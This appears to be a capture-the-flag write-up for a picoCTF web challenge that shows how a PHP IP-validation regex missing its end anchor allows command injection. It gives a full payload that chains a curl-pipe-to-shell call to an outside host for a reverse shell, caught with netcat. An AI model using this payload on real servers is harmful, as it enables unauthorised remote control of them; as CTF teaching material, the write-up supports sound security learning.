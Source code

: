 ## fancy-alive-monitoring - Points: 400
>One of my school mate developed an alive monitoring tool. Can you get a flag from http://2018shell.picoctf.com:8587?

Note.
>The CTF server somehow blocked the outbound connection to non-standard ports. So on our own server, we need to listen on port 80, `sudo nc -lvp 80`.

### Intro
The main purpose of this blog post is to demonstrate how to get a webshell from a web server.

### What is a Webshell, why is it useful?
A few facts about Webshell,

- Webshell, as its name indicates, is to obtain a shell by means of a website.

  This diffs from how shell is usually accessed, which is either remotely via SSH, or log in directly in a server's console.

- A shell can be either a Linux shell, like Bash/Zsh, etc., or a command prompt from Windows.

Of course, above is my understanding of what a Webshell is, and what I believe the term "Webshell' should represent, not authoritative, but should be close.

A Webshell can be utilized to serve different purposes. It can be used to gain complete control of a web server; to search for sensetive information on the server; or to be used as a outpost to gather further information that can help to infiltrate other parts of the infrastructure that share the same network as the web server, etc. etc.

### Getting a Webshell
Ok, let us back to our main business. We will be using the CTF challenge in question to demonstrate how to get a Webshell.

First of all, the server code is published on the challenge's website.

A few points to note,

- The `check()` function in the embedded javascript is doing a validation check against the IP address user inputted.

  Some interesting methods I read from other writeups to circumvent it,

  - we can send a HTTP POST request directly to the web server, thus bypassing the javascript validation.
  - or we can simiply replace the `check()` function in the `Console` inside the developer tool of a browser, with the following,

  ```javascript
  function check(){
    document.getElementById("monitor").submit();
  }
  ```

  That is, when the `Go!` button is clicked, the `check()` function will be calling `.submit()` right away to submit the form, without doing any validation against the input.

- After the data is posted to the server, there is a second check being performed.
  ```php
  preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)
  ```
  This check looks more promising, it does a decent job validating the IP address, which doesn't seem to expose any holes for exploitation.
  However, if we look more colsely, the regex doesn't end with a anchor `$`. That means as long as the data begins with a valid IP address, the data will be considered valid. This is where makes it vulnerable.
  
Since the symbol `;` can be used in PHP to chain the commands, if the payload of the POST request is `1.1.1.1 ; command`, then we can actually trick PHP to execute the command on the web sever!

Here, we will utilize the `command` part to get a reverse shell from the web server, the complete payload looks like, 
```php
1.1.1.1 ; curl https://shell.now.sh/52.18.79.59:5580 | sh
```

`https://shell.now.sh` is a HTTP endpoint that accept an `IP:PORT` as a path parameter, that the web server will be connecting to.

In this demo, the machine to which the IP is attached is controlled by me, and the goal here is to instruct the web server to proactively connect to the `IP:PORT`, and present a shell on my machine, as if I am just SSH'ed into it.

To achieve that, we just do,

1. On my own machine, run `nc -lvp 80` to instruct it to listen on port 80.
1. Fire up `Console` in the developer tool, change the `check()` function to what just shown above.
1. Type in `1.1.1.1 ; curl https://shell.now.sh/xxx.xxx.xxx.xxx:80 | sh` in the text box of the challenge website.
1. Back to `Console`, key in `check();` and press Enter.
1. Go back to my machine, we will see some oupputs under the `nc` command,
  ```bash
  Connection from xxx.xxx.xxx.xxx 36148 received!
  /bin/dash: 0: can't access tty; job control turned off
  $ 
  ```
Now type `whoami` in this window, we will see `www-data`. That's the default user under which the Apache service is running under Ubuntu. We get a shell from the web server!

The door is opened, the rest is left to your imagination.

Hope you enjoyed!


